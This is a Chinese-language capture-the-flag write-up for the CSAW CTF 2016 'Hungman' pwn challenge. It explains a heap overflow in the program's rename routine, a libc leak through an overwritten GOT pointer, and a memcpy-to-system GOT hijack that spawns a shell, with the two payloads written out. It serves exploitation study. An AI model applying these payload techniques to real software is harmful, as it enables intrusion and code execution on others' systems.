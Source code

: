 title: '[CSAW CTF 2016] Hungman 300'
author: nae
tags:
- CSAW CTF 2016
- pwn
- heap
categories:
- write-ups
date: 2016-09-19 23:33:00
---
## Info
> Category: pwn		
> Point: 300	
> Solver: nae @ BambooFox	
> 第一次貢獻大分數給 BambooFox，雖然這次比賽比較簡單，但還是很感動QQ


<!-- more -->	

## Analyzing
64 bit ELF, NX, Partial RELRO, Stack Canary, no PIE

程式一開始會要求輸入名字，而他會 `malloc` 名字長度的記憶體來存放使用者輸入的名字，接著會 `malloc` 一塊 0x80 大小的 heap，以下稱之為 `key_heap`，第一格**高位** 4 bytes 會存放 length of name，第二格則儲存著 name's heap 的位址。

name's heap & key_heap 的 memory layout 如下：

~~~python
	low     ->     high
	+ ------------- +  name's heap chunk head
	| previous size |
	| ------------- |
	|      size     |
	| ------------- |
	|      name     |  32 bytes
	|               |		|
	|               |		|
	|               |		v
	+ ------------- +  key_heap chunk head
	| previous size |
	| ------------- |
	|      size     |
	| ------------- |
	|       |length |
	| ------------- |
	|  name's heap  |
	+ ------------- +
~~~
輸入完名字之後，回到了 `main`，接著便進入玩遊戲的 function 以下稱為 game。

遊戲是猜小寫英文字母，然後如果分數超過 64 分可以重新改名字，而改寫名字時可以在 heap 上進行 overflow。

因為是猜小寫字母，而照他的規則一開始輸入名字的長度
決定可以猜的次數，因此一開始輸入名字時就給他來個 `'A'*26`，這樣基本上從 a 猜到 z 猜到一半就能夠破分數紀錄而改寫名字。

改寫名字的 code 重點如下：

~~~c
s = malloc(248);
memset(s, 0, 248);
len_of_new_name = read(0, s, 248);
*(_DWORD*)(a1 + 4) = len_of_new_name; // 把剛剛 key_heap 存 name size 的地方改成 new name 的 size
memcpy(*(void**)(a1 + 8), s, len_of_new_name);
free(s);
~~~
	
由上面的 code 可以發現，他最長可以讀 248 bytes，而我們一開始輸入的名字長度只有 26，因此 new name 可以好好的構造來 **leak information**。

因為離開 game 後會把新名字 dump 出來，而程式找 `name_heap` 的方式是靠 `key_heap` 的第二格來找，因此在剛剛的 overflow 時我們將原本儲存著 name's heap address 的那格改成 GOT entry，這樣一來，在 dump new name 的時候便可以 **leak libc information** 接著利用主辦方給的 libc 就可以找到 `libc base`。

這邊 overflow 的 payload 如下：

~~~python
payload = 'A'*32 # padding
payload += p64(0) # previous size
payload += p64(0x91) # size
payload += p32(0x20) # score
payload += p32(0x1b) # len_of_new_name
payload += p64(libc_start_main) # __libc_start_main GOT entry
~~~

size 那邊沒必要寫壞就寫回原來的值，下一格的**低位** 4 bytes 會是 這次刷新的分數(下面提供相關 code)，為了加速下次玩遊戲時間，把分數改低一點，然後因為猜個 26 次就很夠了所以**高位** 4 bytes 寫回原來的長度就好了，接下來再玩一次。

~~~c
score = *(_DWARD*)a1;
~~~

第二次改名時就不會改到 name's heap，會改到剛剛 overwrite 的 `__libc_start_main` GOT entry 上。

GOT table 的 libc function order:

~~~
__libc_start_main@got.plt
__gmon_start__@got.plt
memcpy@got.plt
malloc@got.plt
setvbuf@got.plt
~~~

因為在改名字時有一段 code 是 `memcpy(*(void**)(a1+8), s, len_of_new_name)`，所以把 `memcpy` 的 GOT hijack 掉改成 `system`，要注意的點是改名字時會用到 `malloc` 而 `read` 會在結尾補 `\x00` 所以乾脆直接連 `malloc` 也一起蓋正確的 `libc address` 確保他不會壞，而 `malloc` 的下一個 function 後面用不到就不用管他。這邊 payload 開頭我就先送 `'sh\x00'` 上去這樣 `memcpy` 的一開始就可以直接 `system('sh')`。

第二次的 payload:

~~~python
payload = "sh\x00".ljust(8)
payload += 'A'*8
payload += p64(system)
payload += p64(malloc)
~~~

之後再玩一次遊戲，然後改名字的時候隨便輸入就可以拿到 shell。

<!-- more -->
